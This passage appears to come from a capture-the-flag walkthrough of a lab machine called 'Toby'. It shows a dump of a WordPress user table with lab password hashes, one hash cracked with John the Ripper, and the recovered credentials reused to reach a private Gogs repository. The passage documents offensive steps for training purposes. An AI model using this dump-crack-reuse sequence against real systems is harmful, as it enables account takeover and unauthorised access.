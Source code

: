 so try to wordpress database

```bash
MySQL [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email          | user_url            | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
|  1 | toby       | $P$Bc.z9Qg7LCeVxEK8MxETkfVi7FdXSb0 | toby          | toby@toby.htb       | http://192.168.0.43 | 2021-07-08 12:00:13 |                     |           0 | toby         |
|  2 | toby-admin | $P$B3xHYCYdc8rgZ6Uyg5kzgmeeLlEMUL0 | toby-admin    | toby-admin@toby.htb | http://.            | 2021-08-28 18:17:33 |                     |           0 | . .          |
+----+------------+------------------------------------+---------------+---------------------+---------------------+---------------------+---------------------+-------------+--------------+
2 rows in set (0.090 sec)
```

cracking again with JtR and we get some password

```bash
toby-admin:tobykeith1

1 password hash cracked, 1 left
```

### Shell as jack on mysql {#jack-mysql}

we can login with these creds on backup site and we found another private repository there

![alt ffuf](/assets/img/toby/gogs-toby-admin.png)
